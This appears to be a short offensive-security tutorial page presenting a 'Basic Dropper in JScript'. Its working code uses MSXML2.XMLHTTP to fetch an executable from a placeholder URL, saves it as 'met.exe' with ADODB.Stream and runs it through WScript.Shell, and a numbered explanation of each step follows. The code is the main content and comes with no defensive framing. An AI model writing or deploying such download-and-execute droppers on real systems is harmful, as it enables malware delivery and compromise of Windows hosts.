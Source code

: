 # Basic Dropper in JScript

- To perform a HTTP GET Request, we can use the MSXML2.XMLHTTP Object which is based on Microsoft XML Core Services.
- We would be using CreateObject method of the Windows Script Host to instantiate the MSXML2.XMLHTTP Object.

JScript Code :

    var url = "<link to exe file>"
    var Object = WScript.CreateObject('MSXML2.XMLHTTP');
    Object.Open('GET', url, false);
    Object.Send();
    if (Object.Status == 200)
    {
        var Stream = WScript.CreateObject('ADODB.Stream');
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.Position = 0;
        Stream.SaveToFile("met.exe", 2);
        Stream.Close();
    }
    var r = new ActiveXObject("WScript.Shell").Run("met.exe");

Explanation :

1. We first store the link to the exe file in a variable called url
2. Next we create the Object of MSXML2.XMLHTTP
3. We then create a GET Request to the link
4. Next we send the GET request with Object.Send() command.
5. If the Object Status is 200, that means it was a success and the file was found.
6. We then create a Stream to copy the response into it and save it to a file
7. Using the _ActiveXObject_, we execute a shell command were we execute the exe file.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29
> - https://www.w3schools.com/asp/ado_ref_stream.asp
> - https://en.wikipedia.org/wiki/ActiveX

&nbsp;

